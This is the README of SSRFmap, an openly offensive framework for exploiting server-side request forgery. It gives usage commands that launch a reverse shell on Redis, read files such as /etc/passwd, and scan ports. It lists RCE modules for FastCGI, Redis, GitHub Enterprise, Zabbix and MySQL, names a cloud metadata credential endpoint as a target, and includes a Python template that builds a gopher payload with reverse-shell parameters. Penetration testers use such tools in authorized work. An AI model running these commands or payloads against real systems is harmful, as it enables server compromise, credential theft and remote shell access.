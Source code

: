 # SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/)

SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Guide / RTFM

Basic install

```powershell
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap/
python3 ssrfmap.py
```

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zaddix`        | Zaddix RCE |
| `mysql`        | MySQL Command execution |
| `smtp`        | SMTP send mail |
| `portscan`     | Scan ports for the host |
| `networkscan`    | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- --level arg - ability to tweak payloads in order to bypass some IDS/WAF. E.g: `127.0.0.1 -> [::] -> 0000: -> ...`
- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks
- handle request with file in requester

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Data for the service
        ip   = "127.0.0.1"
        port = "6379"
        data = "*1%0d%0a$8%0d%0af[...]save%0d%0aquit%0d%0a"
        payload = wrapper_gopher(data, ip , port)

        # Handle args for reverse shell
        if args.lhost == None: payload = payload.replace("SERVER_HOST", input("Server Host:"))
        else:                  payload = payload.replace("SERVER_HOST", args.lhost)

        if args.lport == None: payload = payload.replace("SERVER_PORT", input("Server Port:"))
        else:                  payload = payload.replace("SERVER_PORT", args.lport)

        # Send the payload
        r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)